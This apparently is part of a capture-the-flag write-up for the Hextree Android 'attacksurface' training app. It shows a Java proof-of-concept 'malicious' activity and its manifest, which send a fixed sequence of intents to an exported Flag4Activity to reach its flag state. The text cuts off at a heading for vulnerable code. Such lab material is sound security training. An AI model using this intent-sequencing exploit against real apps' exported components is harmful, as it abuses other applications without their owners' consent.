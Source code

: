```bash
    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";
    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Log.d(TAG, "MaliciousFlag4PoC started.");
        Toast.makeText(this, "Sending intents to Flag4Activity...", Toast.LENGTH_LONG).show();

        sendIntent("PREPARE_ACTION");
        sendIntent("BUILD_ACTION");
        sendIntent("GET_FLAG_ACTION");
        sendIntent(null); // Send an empty action to trigger success(this)

        Toast.makeText(this, "Intents sent. Check target app for flag.", Toast.LENGTH_LONG).show();
        finish(); // Close the malicious activity
    }

    private void sendIntent(String action) {
        Intent intent = new Intent();
        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        if (action != null) {
            intent.setAction(action);
        }
        try {
            startActivity(intent);
            Log.d(TAG, "Sent intent with action: " + (action != null ? action : "null (to trigger success)"));
        } catch (Exception e) {
            Log.e(TAG, "Failed to send intent with action " + action + ": " + e.getMessage());
            Toast.makeText(this, "Error sending intent: " + e.getMessage(), Toast.LENGTH_SHORT).show();
        }
    }
}
```
```xml
<!-- AndroidManifest.xml for the malicious application -->
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.maliciousapp">

    <application
        android:allowBackup="true"
        android:label="MaliciousFlag4PoC"
        android:supportsRtl="true">
        <activity
            android:name=".MaliciousFlag4PoC"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```
### **Vulnerable Code Snippet (Evidence)**